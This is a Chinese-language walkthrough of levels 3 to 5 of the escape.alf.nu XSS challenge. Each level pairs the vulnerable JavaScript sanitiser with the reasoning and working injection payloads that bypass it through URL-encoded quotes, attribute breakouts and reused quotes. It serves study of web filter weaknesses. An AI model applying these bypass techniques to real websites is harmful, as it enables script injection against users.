 *<a href="http://escape.alf.nu/3">第3题</a>*

```
function escape(s) {
  var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
  console.log(url);

  var a = document.createElement('a');
  a.href = url;
  document.body.appendChild(a);
  a.click();
}
```
这里同样用stringify对双引号和反斜线做了过滤。但是可以发现s的值放入了url中，猜测可以使用URL编码绕过。将第0题的payload中的双引号替换为%22成功绕过。
```
%22);alert(1)//
```

*<a href="http://escape.alf.nu/4">第4题</a>*

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
这题对'<'和'”'做了过滤，但是其中双引号只过滤了一个。又因为$2中只能放置字母，所以考虑将用来闭合的双引号放在$1中。
```
[[s|""onload="alert(1)]]
```

*<a href="http://escape.alf.nu/5">第5题</a>*

```
function escape(s) {
  // Level 4 had a typo, thanks Alok.
  // If your solution for 4 still works here, you can go back and get more points on level 4 now.

  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
这里明显弥补了上一题的漏洞，所以不能再直接使用双引号闭合。于是可以借用第二个替换中的双引号去闭合。为了使a标签里的前后两个双引号被闭合img里的双引号闭合掉，需要在onload=alert(1)后用双斜线注释符。
```
[[a|http://onload=alert(1)//]]
```
可以看到在chrome中被最后解析为
```
<img alt="<a href=" http:="" onload="alert(1)//&quot;" src="a.gif">
"&gt;http://onload=alert(1)//]]
```
